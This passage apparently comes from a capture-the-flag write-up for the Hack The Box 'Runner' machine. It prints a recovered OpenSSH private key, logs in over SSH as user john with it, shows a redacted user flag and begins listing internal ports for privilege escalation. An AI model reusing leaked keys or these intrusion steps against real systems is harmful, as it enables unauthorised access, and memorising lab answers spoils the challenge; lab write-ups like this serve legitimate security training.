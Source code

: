 ```bash
Z2zzex3+iPBYi9tTsnCISXIvTDb32fmm1qRmIRyXAAAFgGL91WVi/dVlAAAAB3NzaC1yc2
EAAAGBAJZNq0YZu09nYNs9/mOoqEjlbM7zZQOMEUuLcvKqxjEgqZ2chCEj5YbRxqU7tKBi
NdRU7p+x80I+zq3u2DAvkrDCJUu/DBlNqIG9E6dmzmOUTdf1/TIiv0hOJYk544T1NRagSH
sZlypYEv47+e1lLXOQrIE1BmJKWl+nE9oHojahy5weUA/mSiVgX5Rej/a07c5BHXFmCrQ6
dD4XLtRVFXkCTqW9d8Py9BhosmtkZGYKyMF0epd2Al/pgURX4URRy5nf5YMv0dhkKQVlAw
fa1EvprR6ZuHN+/OoNdSD2aPu+COwYTp9SM9hOSjtLVto3n8pWNjK2IDo46uX49Bc93qI+
IcbWcrn9BkfAqtQJKMCcgz9Nl8yL1WSgjA4FTQDB+Qewjk1/Ao1M3NL7ileYi0ovr0cer2
EKUL+MJYdR+IVJYGlUopqAKosyT1KsgIvaFIR1xmO9ceYAlF3lC2STHA2CgWds83sd/ojw
WIvbU7JwiElyL0w299n5ptakZiEclwAAAAMBAAEAAAGABgAu1NslI8vsTYSBmgf7RAHI4N
BN2aDndd0o5zBTPlXf/7dmfQ46VTId3K3wDbEuFf6YEk8f96abSM1u2ymjESSHKamEeaQk
lJ1wYfAUUFx06SjchXpmqaPZEsv5Xe8OQgt/KU8BvoKKq5TIayZtdJ4zjOsJiLYQOp5oh/
1jCAxYnTCGoMPgdPKOjlViKQbbMa9e1g6tYbmtt2bkizykYVLqweo5FF0oSqsvaGM3MO3A
Sxzz4gUnnh2r+AcMKtabGye35Ax8Jyrtr6QAo/4HL5rsmN75bLVMN/UlcCFhCFYYRhlSay
yeuwJZVmHy0YVVjxq3d5jiFMzqJYpC0MZIj/L6Q3inBl/Qc09d9zqTw1wAd1ocg13PTtZA
mgXIjAdnpZqGbqPIJjzUYua2z4mMOyJmF4c3DQDHEtZBEP0Z4DsBCudiU5QUOcduwf61M4
CtgiWETiQ3ptiCPvGoBkEV8ytMLS8tx2S77JyBVhe3u2IgeyQx0BBHqnKS97nkckXlAAAA
wF8nu51q9C0nvzipnnC4obgITpO4N7ePa9ExsuSlIFWYZiBVc2rxjMffS+pqL4Bh776B7T
PSZUw2mwwZ47pIzY6NI45mr6iK6FexDAPQzbe5i8gO15oGIV9MDVrprjTJtP+Vy9kxejkR
3np1+WO8+Qn2E189HvG+q554GQyXMwCedj39OY71DphY60j61BtNBGJ4S+3TBXExmY4Rtg
lcZW00VkIbF7BuCEQyqRwDXjAk4pjrnhdJQAfaDz/jV5o/cAAAAMEAugPWcJovbtQt5Ui9
WQaNCX1J3RJka0P9WG4Kp677ZzjXV7tNufurVzPurrxyTUMboY6iUA1JRsu1fWZ3fTGiN/
TxCwfxouMs0obpgxlTjJdKNfprIX7ViVrzRgvJAOM/9WixaWgk7ScoBssZdkKyr2GgjVeE
7jZoobYGmV2bbIDkLtYCvThrbhK6RxUhOiidaN7i1/f1LHIQiA4+lBbdv26XiWOw+prjp2
EKJATR8rOQgt3xHr+exgkGwLc72Q61AAAAwQDO2j6MT3aEEbtgIPDnj24W0xm/r+c3LBW0
axTWDMGzuA9dg6YZoUrzLWcSU8cBd+iMvulqkyaGud83H3C17DWLKAztz7pGhT8mrWy5Ox
KzxjsB7irPtZxWmBUcFHbCrOekiR56G2MUCqQkYfn6sJ2v0/Rp6PZHNScdXTMDEl10qtAW
QHkfhxGO8gimrAvjruuarpItDzr4QcADDQ5HTU8PSe/J2KL3PY7i4zWw9+/CyPd0t9yB5M
KgK8c9z2ecgZsAAAALam9obkBydW5uZXI=
-----END OPENSSH PRIVATE KEY-----
```

```bash
❯ chmod 600 teamcity-id_rsa
❯ ssh -i teamcity-id_rsa john@runner.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
<..SNIP>
john@runner:~$ 
```

And I can see user.txt:

```bash
john@runner:~$ cat user.txt 
41****************************d1
```

# Access as root

Looking at internal ports open at localhost, I can see port 9443, 53 (DNS), 8111, 5005 and 9000:

```bash
john@runner:~$ netstat -ntlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
```